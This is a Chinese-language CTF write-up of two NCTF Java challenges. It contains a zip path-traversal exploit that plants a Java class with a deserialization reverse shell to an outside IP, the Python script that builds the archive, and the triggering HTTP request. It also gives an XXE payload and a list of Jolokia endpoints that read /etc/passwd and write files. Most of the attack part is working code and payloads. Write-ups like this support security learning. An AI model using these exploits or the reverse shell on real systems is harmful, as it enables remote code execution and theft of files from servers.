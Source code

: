 # NCTF_JAVA

>有时间做了一下NCTF的java题，感觉不错记录一下

## Ezjava
考察点：解压路径穿越写文件rce

>tomcat 路径 /usr/local/tomcat 上传的路径 /tmp/fileUpload/

通过写evil.class 然后重写readobject去rce

```
 /tmp/fileUpload/../../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class
```
```
../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class
```

```java
package com.x1c.nctf.controller;

import java.io.*;

public class evil implements Serializable {
    public evil() {    }
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException, InterruptedException {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/101.35.195.134/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }

    public static void main(String[] args) throws Exception {
        evil evil = new evil();
        writeObjectToFile(evil,"1.txt");

    }
    public static void writeObjectToFile(Object obj,String fileName) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(fileName));
        outputStream.writeObject(obj);
        outputStream.close();
    }
}

```
压缩包制作
```python
# -*- coding: utf-8 -*
# /usr/bin/python3
# @Author:Firebasky
import zipfile
file_name="evil.class"
f = zipfile.ZipFile('exp.zip','w',zipfile.ZIP_STORED)
f.write(file_name,'../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class')
f.close()
```

```
GET /html/backdoor?cmd=rO0ABXNyABxjb20ueDFjLm5jdGYuY29udHJvbGxlci5ldmlsfJBBr%2bZElI4CAAB4cA%3d%3d HTTP/1.1
Host: 129.211.173.64:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://129.211.173.64:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://129.211.173.64:8081/html/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## api_system

>这个题，刚刚好拿来学习api,之前学习过springboot的利用思路。并且看到了知识星球的api学习。
>自己一直卡在了绕过/actuator/jolokia/权限的问题，结果通过xxe去绕过。。。

通过[APIKit工具](https://github.com/API-Security/APIKit)去扫描,存在/user/list接口测试发现存在xxe，之后就通过xxe打内网/actuator/jolokia/去绕过

tips：内网端口通过/env去查看


之后就通过/actuator/jolokia/接口的读文件去读flag.


```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://127.0.0.1:8080/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/flag">
]>
<id>&f;</id>
```


[jolokia-exploitation-toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)

```
jolokia/
jolokia/list
jolokia?p=/read/jboss.jmx:alias=jmx%2Frmi%2FRMIAdaptor/State
jolokia/exec/java.lang:type=Memory/gc
jolokia/list?maxObjects=100
jolokia/read/java.lang:type=*/HeapMemoryUsage
jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
jolokia/search/*:j2eeType=J2EEServer,*
jolokia/write/java.lang:type=Memory/Verbose/true
jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable
```

需要学习:https://github.com/API-Security/APISandbox
